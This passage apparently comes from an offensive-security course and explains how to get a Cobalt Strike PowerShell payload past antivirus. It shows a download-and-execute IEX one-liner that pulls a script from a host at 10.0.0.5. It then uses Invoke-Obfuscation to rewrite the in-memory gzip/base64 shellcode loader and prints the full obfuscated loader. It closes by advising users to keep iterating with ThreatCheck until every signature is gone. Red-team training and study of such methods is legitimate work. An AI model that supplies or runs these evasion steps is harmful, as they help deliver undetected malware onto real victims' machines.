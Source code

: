 However, if we host a payload using the scripted web delivery and try to execute it, then it will be detected.

```powershell
PS C:\Users\Attacker> IEX ((new-object net.webclient).downloadstring('http://10.0.0.5/a'))
IEX : At line:1 char:1
+ $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAA ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```

A neat way to get around this is using old-fashioned obfuscation.  First, import Daniel Bohannon's [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) script.

```batch
PS C:\Users\Attacker> ipmo C:\Tools\Invoke-Obfuscation\Invoke-Obfuscation.psd1
PS C:\Users\Attacker> Invoke-Obfuscation
Invoke-Obfuscation>
```

The first thing we do is set the script block to be that of compress.ps1.

```powershell
Invoke-Obfuscation> SET SCRIPTBLOCK '$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();'
```

Then we can apply any of the built-in obfuscations we like.  The only one we can't really do is string obfuscation on the `"%%DATA%%"` placeholder because Cobalt Strike relies on this to patch the shellcode into the correct spot.

Using token obfuscations, I ended up with the following:

```powershell
SET-itEm  VarIABLe:WyizE ([tyPe]('conVE'+'Rt') ) ;  seT-variAbLe  0eXs  (  [tYpe]('iO.'+'COmp'+'Re'+'S'+'SiON.C'+'oM'+'P'+'ResSIonM'+'oDE')) ; ${s}=nEW-o`Bj`eCt IO.`MemO`Ry`St`REAM(, (VAriABle wYIze -val  )::"FR`omB`AsE64s`TriNG"("%%DATA%%"));i`EX (ne`w-`o`BJECT i`o.sTr`EAmRe`ADEr(NEw-`O`BJe`CT IO.CO`mPrESSi`oN.`gzI`pS`Tream(${s}, ( vAriable  0ExS).vALUE::"Dec`om`Press")))."RE`AdT`OEnd"();
```

Simply replace the content in `compress.ps1`, then host and test a new payload.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/2f8697d2bb05bebe35d3d57cbe591a17.png" alt="" width="100%"><figcaption></figcaption></figure>

### Multiple iterations <a href="#el_1747858485413_343" id="el_1747858485413_343"></a>

ThreatCheck can only identify one 'bad part' of a file at a time.  It's common to patch out one detection, run ThreatCheck again, and find that a completely different one has popped up.  This is just the nature of the beast, and we just have to iterate over this process until all the known signatures have been removed.
